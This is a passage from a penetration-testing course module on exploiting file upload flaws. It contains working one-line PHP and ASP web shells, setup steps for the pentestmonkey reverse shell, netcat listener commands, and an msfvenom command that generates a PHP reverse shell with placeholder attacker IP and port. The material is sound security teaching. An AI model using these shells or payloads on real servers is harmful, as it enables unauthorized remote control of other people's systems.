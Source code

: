 # Upload Exploitation

---

The final step in exploiting this web application is to upload the malicious script in the same language as the web application, like a web shell or a reverse shell script. Once we upload our malicious script and visit its link, we should be able to interact with it to take control over the back-end server.

---

## Web Shells

We can find many excellent web shells online that provide useful features, like directory traversal or file transfer. One good option for `PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/seclists/Web-Shells` directory in `PwnBox`.

We can download any of these web shells for the language of our web application (`PHP` in our case), then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell. For example, let's try to upload `phpbash.php` from [phpbash](https://github.com/Arrexel/phpbash) to our web application, and then navigate to its link by clicking on the Download button:

![](imgs/file_uploads_php_bash.jpg)

As we can see, this web shell provides a terminal-like experience, which makes it very easy to enumerate the back-end server for further exploitation. Try a few other web shells from SecLists, and see which ones best meet your needs.

---

## Writing Custom Web Shell

Although using web shells from online resources can provide a great experience, we should also know how to write a simple web shell manually. This is because we may not have access to online tools during some penetration tests, so we need to be able to create one when needed.

For example, with `PHP` web applications, we can use the `system()` function that executes system commands and prints their output, and pass it the `cmd` parameter with `$_REQUEST['cmd']`, as follows:

Code: php

```php
<?php system($_REQUEST['cmd']); ?>
```

If we write the above script to `shell.php` and upload it to our web application, we can execute system commands with the `?cmd=` GET parameter (e.g. `?cmd=id`), as follows:

![](imgs/file_uploads_php_manual_shell.jpg)

This may not be as easy to use as other web shells we can find online, but it still provides an interactive method for sending commands and retrieving their output. It could be the only available option during some web penetration tests.

**Tip:** If we are using this custom web shell in a browser, it may be best to use source-view by clicking `[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

Web shells are not exclusive to `PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output, as follows:

Code: asp

```asp
<% eval request('cmd') %>
```

We can find various other web shells online, many of which can be easily memorized for web penetration testing purposes. It must be noted that `in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. `system()`), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.

---

## Reverse Shell

Finally, let's see how we can receive reverse shells through the vulnerable upload functionality. To do so, we should start by downloading a reverse shell script in the language of the web application. One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

Let's download one of the above reverse shell scripts, like the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), and then open it in a text editor to input our `IP` and listening `PORT`, which the script will connect to. For the `pentestmonkey` script, we can modify lines `49` and `50` and input our machine's IP/PORT:

Code: php

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

Next, we can start a `netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:

Upload Exploitation

```shell-session
swmpdnky@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we successfully received a connection back from the back-end server that hosts the vulnerable web application, which allows us to interact with it for further exploitation. The same concept can be used for other web frameworks and languages, with the only difference being the reverse shell script we use.

---

## Generating Custom Reverse Shell Scripts

Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previous `system` function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools like `msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`:

Upload Exploitation

```shell-session
swmpdnky@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

Once our `reverse.php` script is generated, we can once again start a `netcat` listener on the port we specified above, upload the `reverse.php` script and visit its link, and we should receive a reverse shell as well:

Upload Exploitation

```shell-session
swmpdnky@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the `-p` flag and specify the output language with the `-f` flag.

While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead. This can be for several reasons, like having a firewall on the back-end network that prevents outgoing connections or if the web server disables the necessary functions to initiate a connection back to us.